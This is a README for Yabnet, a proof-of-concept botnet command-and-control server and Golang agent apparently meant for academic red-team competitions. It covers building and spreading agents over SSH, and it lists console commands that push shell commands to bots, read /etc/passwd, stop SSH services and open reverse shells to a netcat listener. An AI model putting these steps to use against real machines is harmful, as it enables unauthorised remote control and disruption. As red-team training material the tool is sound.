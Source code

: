 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

## Under Construction - TODO 
-----------

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [ ] Clean up debugging codes in all files 
- [ ] Finalize and structure all in-code comments 
- [x] Enhance README documentation and usage 
- [ ] Support communicating with PWNBOARD 


## Installation 

**Yabnet requires python3.7++, GOLANG, and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

Install Golang if it is not installed. 

```
cd /opt
git clone https://github.com/choisg/yabnet.git
cd /opt/yabnet
chmod +x install.sh
./install.sh
```

## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

**Utility scripts** 

`/yabnet/agent/generator.py` = Python script which creates agent golang file with specified server IP address and port number 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH

## Installation 

### Server setup - Docker
```
cd /opt/yabnet/server
docker build -t yabnet .
docker run -e USER=<username> -e PASS=<password> -e MASTERKEY=<masterkey> -p 5000:5000 yabnet 

(Example: docker run -e USER=admin -e PASS=password -e MASTERKEY=masterkey -p 5000:5000 yabnet )
```

### Agent setup - Golang 

**Generating Agent through terminal**

```
# Create executable with generator script
python3 /opt/yabnet/agent/generator.py -i <serverip> -p <port> -f
# Verfiy the executable was created 
file /opt/yabnet/agent/agent
```

**Generating Agent through master console**
```
python3 /opt/yabnet/master/master.py
Yabnet>> generate -i <serverip> -p <serverport> -f 
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` to the target machine and run it.

Feel free to change the name of the executable. 

### Master setup

Use the credential that was passed through the `docker run` command for the server. 

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

# By the way, all master console commands have help flag.
Yabnet>> push -h 
``` 


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botip>,<botip> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botip> -f <server_file> -d <bot_filesystem_destination>` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botip> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| help | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 
`ex) push -t 10.0.1.1,10.0.2.1,10.0.3.1 -c "systemctl stop apache2"`
2. Reverse shell command requires the master to open a new console and setup a netcat listener. 
`ex) reverse -t 10.0.3.4 -p 31337` 
`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 
3. The server is hosting files in `/opt/yabnet/server/uploads/` directory. 

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
